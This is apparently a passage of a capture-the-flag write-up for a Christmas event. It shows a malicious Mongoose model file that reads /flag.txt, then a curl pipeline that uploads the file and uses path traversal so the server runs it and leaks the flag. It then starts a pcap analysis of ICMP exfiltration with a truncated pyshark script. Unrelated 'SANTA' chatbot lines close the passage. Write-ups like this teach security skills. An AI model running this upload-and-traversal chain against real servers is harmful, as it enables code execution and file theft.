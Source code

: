 ```javascript
    name: { type: String, default: () => 'Pico est beau' },
    description: { type: String, default: 'Pico est un croco' }
});


picoSchema.methods.store = function() {
    console.log('Pico est mega beau');
    throwExceptionWithFileContent('/flag.txt');
    return this;
};

module.exports = mongoose.model('Pico', picoSchema);
```

To retrieve the flag: 

```
$ curl -s -X POST -F "name=pico" -F "photo=@pico.js" http://XMAS-ROOT-ME-INSTANCE/api/suggest 2>&1 | grep -o '"photoPath":"[^"]*"' | sed 's/"photoPath":"\(.*\)"/\1/' | xargs -I{} curl 'http://XMAS-ROOT-ME-INSTANCE/api/add' -X POST -H 'Content-Type: application/json' --data-raw '{"product":"../../../../..//{}"}
./attack.sh
{"message":"Error adding the product ../../../../..///tmp/2024-12-09_18-1-58/pico.js. The flag is : \n\nRM{Mayb3_S4nt4_Cl4uS_Als0_G3t_A_Flag}"}
```


## Wrapped Packet - Day 2 - Pcap

We are given a pcapng file and are told data is exfiltrated.
We notice unusually long data in ICMP packets:

```
5b2d02000000000034353732373236663732336132303730343537323732366637323361323037303435373237323666
5b2d02000000000034353732373236663732336132303730343537323732366637323361323037303435373237323666
```

With the help of ChatGPT, I write a script to extract all payloads of ICMP packets:

```python
import pyshark

def extract_icmp_data(pcap_file):
    """
    Extracts ICMP packet data from a PCAP file.

    Args:
        pcap_file (str): Path to the PCAP file.
    """
    # Filter for ICMP packets
    capture = pyshark.FileCapture(pcap_file, display_filter="icmp")
    
    print(f"Extracting ICMP data from {pcap_file}...\n")
    
    try:
        for packet in capture:
            # Extract IP layer details
            src_ip = packet.ip.src
            dst_ip = packet.ip.dst

            # Extract ICMP layer details
            icmp_type = packet.icmp.type
            icmp_code = packet.icmp.code
            icmp_info = packet.icmp.info if hasattr(packet.icmp, "info") else "No info"
            
            # Display payload if available
```

 [SANTA]: Oh, I forgot to tell you, you will only be able to unwrap it on the 25th, come back to me on that date to get the key!
 [SANTA]: While I'm at it, do you wish to wrap a present for someone? (Y/N)